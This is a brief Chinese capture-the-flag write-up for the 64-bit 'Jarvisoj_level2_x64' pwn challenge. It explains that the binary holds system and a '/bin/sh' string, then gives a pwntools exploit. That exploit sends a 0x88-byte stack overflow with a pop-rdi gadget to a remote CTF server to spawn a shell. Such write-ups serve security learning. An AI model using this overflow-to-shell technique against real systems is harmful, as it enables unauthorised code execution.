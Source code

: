 ```yaml
---
title: "Jarvisoj_level2_x64"
description: ""
date: 2023-04-07T00:17:54+08:00
lastmod: 2023-04-07T00:17:54+08:00
draft: false
images: []
type: docs
weight: 990
toc: true
---
```


## 0x01 分析

jarvisoj\_level2的64位版本，有system和 `/bin/sh` 字符串，只是传参方式变了，还是ret2libc类型

## 0x02 Exploit

```python
from pwn import*
# o = process("./pwn")
o = remote("node4.buuoj.cn", 27906)
pop_rdi = 0x00000000004006b3
payload = b'a'*0x88 + p64(pop_rdi) + p64(0x600A90) + p64(0x400603)
o.sendline(payload)
o.interactive()
```

![4467f6e1a55a54a15378ed623d1fe218](images/4467f6e1a55a54a15378ed623d1fe218.png)  

自行调试
